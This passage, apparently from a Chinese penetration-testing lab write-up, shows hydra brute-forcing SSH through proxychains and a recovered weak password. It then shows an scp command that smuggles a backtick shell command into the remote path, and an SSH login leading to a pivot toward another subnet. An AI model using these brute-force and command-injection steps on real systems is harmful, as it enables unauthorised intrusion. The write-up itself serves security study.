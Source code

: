 ```bash
proxychains hydra -L /usertest.txt -P /passtest.txt ssh://192.168.71.20
```

\-L /usertest.txt #用户  
\-P /passtest.txt #密码  
ssh://192.168.71.20 #协议

[![](assets/1708094050-d7fa9734bc048a2d51d7a6ca3694bde3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145752-f0fe60b4-1000-1.png)  
此处存在弱口令 cs/123  
利用 scp 命令，对 centos 进行写文件，复制文件。

```bash
scp / test.txt cs@192.168.71.20:'`touch /tmp/test.sh`/tmp'
```

[![](assets/1708094050-6f1702fba907ecc458fd6819f6cad74b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145807-fa458ea4-1000-1.png)  
ssh 连接 192.168.71.20

```bash
proxychains ssh cs@192.168.71.20
```

[![](assets/1708094050-87f32f6fabfecb0c2f2e038acbfd3134.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145820-017d4144-1001-1.png)  
连接成功，发现 192.168.93.10 网段。
